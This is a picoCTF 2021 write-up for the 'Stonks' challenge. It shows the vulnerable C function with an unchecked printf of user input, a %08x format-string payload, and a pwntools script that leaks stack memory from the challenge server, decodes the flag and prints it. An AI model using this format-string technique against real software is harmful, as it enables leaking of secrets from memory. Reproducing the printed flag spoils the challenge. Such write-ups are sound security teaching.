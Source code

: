 # Stonks - picoCTF 2021 - CMU Cybersecurity Competition
Binary Exploitation, 20 Points

## Description


![Stonks.JPG](images/Stonks.JPG)
 
Attached file [vuln.c](vuln.c)

## Stonks Solution

The attached file ```vuln.c``` contains the following function:
```c
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```

The function above copy the flag to ```api_buf``` buffer using ```fgets(api_buf, FLAG_BUFFER, f);```.

Then, The function ask for "API token":
```c
...
printf("What is your API token?\n");
scanf("%300s", user_buf);
...
printf(user_buf);
```

And we can see the user input printed by ```printf(user_buf);``` function, It's mean we can use [Format String Vuln.](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf) to print ```api_buf``` buffer from stack using ```%08x``` - which print one value from stack.

So let's try it:
```console
┌─[evyatar@parrot]─[/pico2021/Stonks] 
└──╼ $ nc mercury.picoctf.net 33411 
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Buying stonks with token:
09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0
Portfolio as of Tue Mar 30 22:43:14 UTC 2021


3 shares of FCLC
1 shares of YBEH
9 shares of RU
63 shares of FTIA
92 shares of F
333 shares of Z
7 shares of XOOJ
87 shares of BV
89 shares of WU
822 shares of KP
Goodbye!
```
So as we can see we get the following hex bytes:```09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0``` which is hex values from stack.

Let's write python code using ```pwntools``` to unpack the hex values from stack into string to get our flag.

So first, connect to server, send the payload and split the response by ```\n``` to get only hex bytes:
```python
from pwn import *

p = remote('mercury.picoctf.net', 33411)

print(p.recvuntil("portfolio"))
p.sendline("1")
print("Sending command: 1")

print(p.recvuntil("?"))
p.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")

print("Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")
flag_bytes=p.recvuntil("Portfolio").split('\n')[2]

```

Now, ```flag_bytes``` contains ```09a3b3b00804b000080489c3f7f9fd80ffffffff0000000109a39160f7fad110f7f9fdc70000000009a3a1800000000409a3b39009a3b3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffa8007df7fdaaf8f7fad440c27a0f000000000100000000f7e3cbe9f7fae0c0```.

We can split it into 8 bytes using the following function:
```python
def split_to_8_bytes_arr(flag_split_by_8_bytes):
        n=8
        return [flag_bytes[i:i+n] for i in range(0, len(flag_bytes), n)]
```

It will return:
```python
['09a3b3b0', '0804b000', '080489c3', 'f7f9fd80', 'ffffffff', '00000001', '09a39160', 'f7fad110', 'f7f9fdc7', '00000000', '09a3a180', '00000004', '09a3b390', '09a3b3b0', '6f636970', '7b465443', '306c5f49', '345f7435', '6d5f6c6c', '306d5f79', '5f79336e', '63343261', '36613431', 'ffa8007d', 'f7fdaaf8', 'f7fad440', 'c27a0f00', '00000001', '00000000', 'f7e3cbe9', 'f7fae0c0']
```

Now, we need to unpack the bytes using ```p32``` and to filter only the printable characters that contains our flag using the following code:
```python
def print_flag_from_hex_arr(hex_arr):
        flag=""
        for byte in flag_split_by_8_bytes:
                upack_byte_str=str(p32(int(byte,16)))
                if all(c in string.printable for c in upack_byte_str):
                        flag+=upack_byte_str
        print("Flag: " + flag + "}")
```

Write all together:
```python
from pwn import *

def split_to_8_bytes_arr(flag_split_by_8_bytes):
        n=8
        return [flag_bytes[i:i+n] for i in range(0, len(flag_bytes), n)]

def print_flag_from_hex_arr(hex_arr):
        flag=""
        for byte in flag_split_by_8_bytes:
                upack_byte_str=str(p32(int(byte,16)))
                if all(c in string.printable for c in upack_byte_str):
                        flag+=upack_byte_str
        print("Flag: " + flag + "}")


p = remote('mercury.picoctf.net', 33411)

print(p.recvuntil("portfolio"))
p.sendline("1")
print("Sending command: 1")

print(p.recvuntil("?"))
p.sendline("%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")

print("Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x")
flag_bytes=p.recvuntil("Portfolio").split('\n')[2]

flag_split_by_8_bytes=split_to_8_bytes_arr(flag_bytes)
print_flag_from_hex_arr(flag_split_by_8_bytes)
```

Run it:
```console
┌─[evyatar@parrot]─[/pico2021/Stonks] 
└──╼ $ python stonks.py 
[+] Opening connection to mercury.picoctf.net on port 33411: Done
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Sending command: 1

Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Sending payload: %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
[*] Closed connection to mercury.picoctf.net port 33411
```

```Flag: picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}```.
